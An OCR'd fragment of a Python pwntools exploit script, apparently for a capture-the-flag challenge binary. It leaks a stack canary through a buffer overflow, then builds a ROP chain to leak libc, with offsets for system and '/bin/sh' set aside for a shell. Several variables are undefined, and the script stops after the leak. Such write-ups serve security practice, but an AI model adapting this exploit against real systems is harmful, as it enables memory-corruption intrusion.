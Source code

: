 ```
offsetPuts = 0x6f690
offsetSystem = 0x45390
offsetBinsh = 0x18cd57
#offsetPuts = 0x83cc0
#offsetSystem = 0x52fd0
#offsetBinsh = 0x1afb84

startMain = p64(0x400a96)

# Establish fucntions to handle I/O with the target
def feed(data):
  print(target.recvuntil(b">>"))
  target.sendline(b'1')
  print(target.recvuntil(b">>"))
  target.send(data)

def review():
  print(target.recvuntil(b">>"))
  target.sendline(b'2')
  #print target.recvuntil("[*]PLEASE TREAT HIM WELL.....\n-------------------------\n")
  #leak = target.recvuntil("-------------------------").replace("-------------------------", "")
  print(target.recvuntil(b"0"*0xa9))
  canaryLeak = target.recv(7)
  canary = u64(b"\x00" + canaryLeak)
  print("canary is: " + hex(canary))
  return canary

def leave():
  print(target.recvuntil(b">>"))
  target.sendline(b"3")

# Start of with the canary leak. We will overflow the buffer write up to the stack canary, and overwrite the least signifcant byte of the canary
leakCanary = b""
leakCanary += b"0"*0xa8 # Fill up space up to the canary
leakCanary += b"0" # Overwrite least significant byte of the canary



feed(leakCanary) # Execute the overwrite

canary = review() # Leak the canary, and parse it out

# Start the rop chain to give us a libc infoleak
leakLibc = b""
leakLibc += b"0"*0xa8 # Fill up space up to the canary
leakLibc += p64(canary) # Overwrite the stack canary with itself
leakLibc += b"1"*0x8 # 8 more bytes until the return address
leakLibc += popRdi # Pop got entry for puts in rdi register
leakLibc += gotPuts # GOT address of puts
leakLibc += pltPuts # PLT address of puts
leakLibc += startMain # Loop back around to the start of main

# Send the payload to leak libc
feed(leakLibc)

# Return to execute our code
leave()

# Scan in and parse out the infoleak

print(target.recvuntil(b"[*]BYE ~ TIME TO MINE MIENRALS...\x0a"))

```